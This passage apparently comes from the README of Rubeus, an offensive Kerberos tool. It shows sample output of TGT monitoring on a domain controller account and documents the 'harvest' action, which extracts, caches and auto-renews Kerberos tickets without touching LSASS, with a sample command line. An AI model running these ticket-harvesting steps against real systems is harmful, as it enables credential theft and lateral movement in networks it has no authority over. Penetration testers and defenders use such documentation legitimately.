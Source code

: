       v1.5.0

    [*] Action: TGT Monitoring
    [*] Target user     : DC$
    [*] Monitoring every 10 seconds for new TGTs


    [*] 12/21/2019 11:10:16 PM UTC - Found new TGT:

      User                  :  DC$@THESHIRE.LOCAL
      StartTime             :  12/21/2019 2:44:31 PM
      EndTime               :  12/21/2019 3:44:31 PM
      RenewTill             :  12/28/2019 2:13:06 PM
      Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
      Base64EncodedTicket   :

        doIFFDCCBRCgAwIBBaEDAgEWoo...(snip)...

    [*] Ticket cache size: 1


**Note that this action needs to be run from an elevated context!**


### harvest

The **harvest** action takes [monitor](#monitor) one step further. It periodically extract all TGTs every `/monitorinterval:X` seconds (default of 60), extracts any new TGT KRB-CRED files, and keeps a cache of any extracted TGTs. Every interval, any TGTs that will expire before the next interval are automatically renewed (up until their renewal limit). Every `/displayinterval:X` seconds (default of 1200) and the current cache of "usable"/valid TGT KRB-CRED .kirbis are output as base64 blobs.

This allows you to harvest usable TGTs from a system without opening up a read handle to LSASS, though elevated rights are needed to extract the tickets.

The `/nowrap` flag causes the base64 encoded ticket output to no wrap per line.

If you want **harvest** to run for a specific period of time, use `/runfor:SECONDS`.

Further, if you wish to save the output to the registry, pass the `/registry` flag and specfiy a path under HKLM to create (e.g., `/registry:SOFTWARE\MONITOR`). Then you can remove this entry after you've finished running Rubeus by `Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force`.

    c:\Rubeus>Rubeus.exe harvest /interval:30

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v0.0.1a

    [*] Action: TGT Harvesting (w/ auto-renewal)

    [*] Monitoring every 30 minutes for 4624 logon events
